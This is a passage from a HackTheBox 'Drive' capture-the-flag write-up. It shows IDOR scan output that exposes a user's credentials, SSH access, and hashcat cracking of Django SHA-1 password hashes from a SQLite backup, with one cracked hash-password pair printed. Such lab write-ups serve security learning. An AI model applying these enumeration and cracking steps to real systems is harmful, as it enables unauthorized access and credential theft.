 Output:

~~~bash
❯ python webScan.py
[ ] Post number: 1999
[+] IDOR: 79
[+] IDOR: 98
[+] IDOR: 99
[+] IDOR: 100
[+] IDOR: 101
~~~

In the post 79 there are creds for a user called **martin**.

![](@assets/HackTheBox/Drive/martin_creds.png)

We can access via SSH.

## Pivoting

### Backups

We have 3 SQLite backups at **/var/www/backups/**. But as the note found before suggested, I won't try cracking them for now.

![](@assets/HackTheBox/Drive/database_crack.png)

We also have a `.sqlite3` file. It contains some users and its password hashed.

![](@assets/HackTheBox/Drive/hashed_sqlite.png)

~~~bash
❯ hashcat hash                            
hashcat (v6.2.6) starting in autodetect mode
...
124 | Django (SHA-1) | Framework
~~~

We can try cracking them

~~~bash
❯ hashcat -a 0 -m 124 hash /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting
...
Hashes: 5 digests; 5 unique digests, 5 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
...
Dictionary cache built:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 3 secs

sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 124 (Django (SHA-1))
Hash.Target......: hash
Time.Started.....: Fri Oct 20 20:39:09 2023 (17 secs)
Time.Estimated...: Fri Oct 20 20:39:26 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3231.7 kH/s (0.79ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
~~~